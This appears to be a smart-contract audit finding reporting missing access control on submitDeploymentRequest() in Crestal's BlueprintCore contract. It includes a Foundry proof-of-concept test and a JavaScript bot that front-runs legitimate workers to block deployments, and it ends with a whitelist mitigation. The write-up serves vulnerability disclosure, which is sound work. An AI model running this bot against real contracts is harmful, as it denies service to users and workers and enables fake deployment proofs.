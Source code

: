 Old Latte Bull

High

# Anyone can call submitDeploymentRequest(), which leads to serious consequences

### Summary

The function `submitDeploymentRequest()` has no access control even though it's a critical function, ( it's meant for workers and not normal users, its role is to pickup a deployment request by a worker ) , which leads to devastating consequences ( DoS'ing any deployments from happening ).

### Root Cause

[`BlueprintCore.sol:602-L626`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L602-L626) , notice that it's a public function which performs a critical action ( picking up a deployment request ) . 

According to the flow explained in the [docs](https://docs.crestal.network/solvers/worker#deployment-workflow), the flow is supposed to work like this: 
1. Builder triggers the Blueprint smart contract by requesting a proposal deployment.
2. The Blueprint Smart Contract processes deployment requests and emits one of two events depending on the proposal type, ( in this case it's `RequestDeployment` ).
3. Worker listens for `RequestDeployment` event and submits deployment request to the contract ( using the function `submitDeploymentRequest()`.
4. Blueprint Contract selects worker :
          - Receives multiple Worker requests.
          - Selects a Worker to handle the deployment using a first-come, first-serve strategy.
          - Emits an `AcceptDeployment` event containing the requestId and the selected Worker address.
          
5. Selected Worker: Listens for `AcceptDeployment` events to verify if they are assigned.  And if selected : Performs the real deployment.


But the workers are not whitelisted , and anyone can listen for the event `RequestDeployment` , and once it's emitted he calls `submitDeploymentRequest()` which changes the status to `Status.Pickup` and `isAccpted` to `true`, preventing legit workers from deploying, and causing a DoS.

### Internal Pre-conditions

- Attacker needs to be the first to call `submitDeploymentRequest()`, which can be done easily using a bot.

### External Pre-conditions

N/A

### Attack Path

1. A user triggers the Blueprint smart contract by requesting a proposal deployment.
2. The Blueprint Smart Contract emit the `RequestDeployment` event.
3. An attacker is listening to this event ( using a bot for example ) , once it's emitted , he calls `submitDeploymentRequest()` before any workers, which leads to DoSing deployment, since any legit worker which calls it after him will revert.
4. **Optional** : Attacker submits a fake proof of deployment.

### Impact

This could lead to serious consequences since an attacker may automate it using a bot, once any `RequestDeployment` event is received he calls `submitDeploymentRequest()` using that  request Id, DoS'ing any deployment from happening ! and sabotaging this critical functionality forever.

### PoC

- Run `forge test --mt test_DoSdeployments -vvvv`
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test, console} from "forge-std/Test.sol";
import {Vm} from "forge-std/Vm.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";
import {BlueprintCore} from "../src/BlueprintCore.sol";
import {Blueprint} from "../src/Blueprint.sol";
import {stdError} from "forge-std/StdError.sol";
import {MockERC20} from "./MockERC20.sol";

contract AuditTest is Test {
    BlueprintV5 public blueprint;
    MockERC20 public mockToken;
    bytes32 public projectId;
    address public workerAddress;
    address public dummyAddress;
    address public user = address(0x1338);
    address public attacker = address(0x1337);

    function setUp() public {
        blueprint = new BlueprintV5();
        blueprint.initialize(); // mimic upgradeable contract deploy behavior

        mockToken = new MockERC20();

        // set crestal wallet address
        blueprint.setFeeCollectionWalletAddress(address(0x7D8be0Dd8915E3511fFDDABDD631812be824f578));

        projectId = bytes32(0x2723a34e38d0f0aa09ce626f00aa23c0464b52c75516cf3203cc4c9afeaf2980);
        workerAddress = address(0x4d6585D89F889F29f77fd7Dd71864269BA1B31df);
        dummyAddress = address(0);
    }

    function test_DoSdeployments() public {

    // 1 - legit user requests a deployment
    vm.prank(user);
    bytes32 deploymentRequestId =
        blueprint.createProjectIDAndDeploymentRequest(projectId, "test base64 param", "test server url");

    // 2 - Attacker receives the `RequestDeployment` event, and calls `submitDeploymentRequest` with the request ID
    vm.startPrank(attacker);
    bool isAccept = blueprint.submitDeploymentRequest(projectId, deploymentRequestId);
    assertEq(isAccept, true);
    vm.stopPrank();

    // 3 - Legit worker tries to call submitDeploymentRequest, but fails, DoSing the deployment.
    vm.startPrank(workerAddress);
    vm.expectRevert("requestID already picked by another worker, try a different requestID");
    isAccept = blueprint.submitDeploymentRequest(projectId, deploymentRequestId);
    assertEq(isAccept, false);

    vm.stopPrank();
    
    // 4 - Optional : Attacker submits a fake proof of deployment
    string memory proofBase64 = "fake proof";
    vm.startPrank(attacker);
    blueprint.submitProofOfDeployment(projectId, deploymentRequestId, proofBase64);
    vm.stopPrank();
    blueprint.getDeploymentProof(deploymentRequestId);
}

}
```

- Here's an example of how a bot may look like ( just for demonstration purposes, it's not runnable right now since the contract is not yet deployed ) :
```js
const { ethers } = require('ethers');

// Setup provider (Infura WebSocket for real-time)
const provider = new ethers.WebSocketProvider('wss://mainnet.infura.io/ws/v3/YOUR-API-KEY');

const wallet = new ethers.Wallet('0xYOUR_PRIVATE_KEY', provider);

// Contract details (replace with real address and ABI)
const contractAddress = '0xBLUEPRINT_ADDRESS';
const abi = [ /* Paste BlueprintCore ABI here, or load from a JSON file */ ];
const contract = new ethers.Contract(contractAddress, abi, wallet);

async function listenAndSubmit() {
  console.log('Bot started. Listening for RequestDeployment events...');

  // Listen for RequestDeployment events
  contract.on('RequestDeployment', async (projectID, walletAddress, solverAddress, requestID, base64Proposal, serverURL, event) => {
    try {
      console.log(`Event detected: projectID=${projectID}, requestID=${requestID}`);

      // Check if it’s public (workerAddress would be 0x0 for public in private events)
      const status = await contract.requestDeploymentStatus(requestID);
      if (status.status !== 1) { // Status.Issued = 1, not picked up yet
        console.log(`Request ${requestID} already picked up or invalid. Skipping.`);
        return;
      }

      // Submit the deployment request
      console.log(`Submitting deployment request for ${requestID}...`);
      const tx = await contract.submitDeploymentRequest(projectID, requestID, {
        gasLimit: 200000, // Adjust based on profiling
        gasPrice: ethers.parseUnits('20', 'gwei'), // 20 gwei, tweak as needed
      });

      // Wait for confirmation
      const receipt = await tx.wait();
      console.log(`Success! Tx hash: ${receipt.transactionHash}`);
    } catch (error) {
      console.error(`something went wrong: ${error.message}`);
    }
  });

  // Handle WebSocket disconnects
  provider.websocket.on('close', () => {
    console.log('WebSocket closed. Reconnecting...');
    listenAndSubmit(); // Restart listener
  });
}

// Kick it off
listenAndSubmit();
```

### Mitigation

Add a mapping with whitelisted worker addresses, then make sure the `submitDeploymentRequest()` msg.sender is a worker. 